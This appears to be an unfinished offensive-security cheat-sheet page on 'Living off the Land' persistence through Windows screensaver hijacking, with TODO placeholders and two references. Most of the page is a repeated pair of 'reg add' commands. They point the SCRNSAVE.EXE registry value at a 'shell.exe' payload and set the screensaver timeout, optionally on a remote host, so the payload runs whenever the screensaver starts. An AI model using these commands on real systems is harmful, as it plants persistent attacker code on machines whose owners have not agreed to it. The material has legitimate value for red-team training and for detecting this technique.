 # Living off the Land

TODO: Refer to the link

## 01 - Command Prompt

```
C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

## 02 - PowerShell

TODO: Convert the commands to cmdlets

```
C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg add "[\\<IP>\]HKCU\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "<seconds>" /f
```

---
## References

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

- [austin-lai: Persistence through Windows Screensaver Hijacking](https://github.com/austin-lai/Persistence-through-Windows-Screensaver-Hijacking)